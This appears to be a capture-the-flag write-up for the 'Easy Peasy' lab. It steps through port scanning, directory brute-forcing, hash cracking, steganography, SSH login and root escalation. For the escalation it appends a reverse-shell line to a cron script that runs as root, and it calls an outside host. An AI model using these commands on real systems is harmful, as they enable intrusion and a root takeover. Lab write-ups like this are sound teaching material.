

# Easy Peasy

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.29.170

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
-p-: scan all ports
```
nmap -sV -p- -oN nmap.txt 10.10.29.170
```


**EXPOSED PORT (SERVICE)**:<br>
    80 (http nginx 1.16.1),<br>
    6498 (ssh OpenSSH 7.6p1), <br>
    65524 (http Apache 2.4.43)

Enumerate hidden directories on website on port 80
```
gobuster dir -u 10.10.29.170 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


Directories of Interest: /hidden

Nothing important found in /hidden

Lets further enumerate this directory

```
gobuster dir -u http://10.10.29.170/hidden -w /usr/share/wordlists/dirb/common.txt
```


Directories of Interest: /hidden/whatever


Found hash (or encoding): ZmxhZ3tmMXJzN19mbDRnfQ==

Lets further enumerate this directory

```
gobuster dir -u http://10.10.29.170/hidden/whatever -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


Directories of Interest: None

Enumerate hidden directories on website on port 65524
```
gobuster dir -u http://10.10.29.170:65524 -w /usr/share/wordlists/dirb/common.txt
```


Directories of Interest: robots.txt


Found hash: a18672860d0510e5ab6699730763b250

### 2. FLAG 1

Use https://gchq.github.io/CyberChef/ to crack encoding we found (ZmxhZ3tmMXJzN19mbDRnfQ==)


**FLAG 1**: flag{f1rs7_fl4g}

### 3. FLAG 2

Use hash-identifier on hash we found<br>
-m: show hash cat modes<br>
-j: show john hash formats
```
hashid -m "a18672860d0510e5ab6699730763b250"
```

MD5 hash

-a3: brute force attack
```
hashcat -a3 -m0 hash
```

**FLAG 2**: flag{1m_s3c0nd_fl4g}

### 4. FLAG 3

Found encoded string and flag in http://10.10.29.170:65524 page source


**FLAG 3**: flag{9fdafbd64c47471a8f54cd3fc64cd312}


String: ObsJmP173N2X6dOrAgEAL0Vu

Used CyberChef to crack it (Base62)


Result: /n0th1ng3ls3m4tt3r

Found another hash



Hash: 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81

Use john to crack this hash<br>
Hint: use GOST
```
john hash --wordlist=~/Desktop/easypeasy.txt --format=GOST
```


Result: mypasswordforthatjob

There was also an image in /n0th1ng3ls3m4tt3r that we can try using steghide on
```
steghide extract -sf img.jpeg
```
 
Use password found previously


Username: boring
Password (Binary): 01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001

Use CyberChef to convert this


Password: iconvertedmypasswordtobinary

```
ssh -P 6498 boring@10.10.29.170
```


User flag cipher: synt{a0jvgf33zfa0ez4y}

Could be ROT13 so use CyberChef to crack this 


**USER FLAG**: flag{n0wits33msn0rm4l}

### 5. PRIVILEGE ESCALATION

Check user privileges
```
sudo -l
```

no sudo privileges

Use linpeas
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas
scp -P 6498 linpeas boring@10.10.29.170:~/
```

```
chmod +x linpeas
./linpeas
```


Found possible attack vector

```
cd /var/www
ls -l .mysecretcronjob.sh
cat .mysecretcronjob.sh
```


It looks like this script is owned by boring and it will run as root

Edit this script to get a root reverse shell
```
chmod 777 .mysecretcronjob.sh
echo "sh -i >& /dev/tcp/10.6.1.136/4444 0>&1" >> .mysecretcronjob.sh
```


**ROOT FLAG**: flag{63a9f0ea7bb98050796b649e8548145}
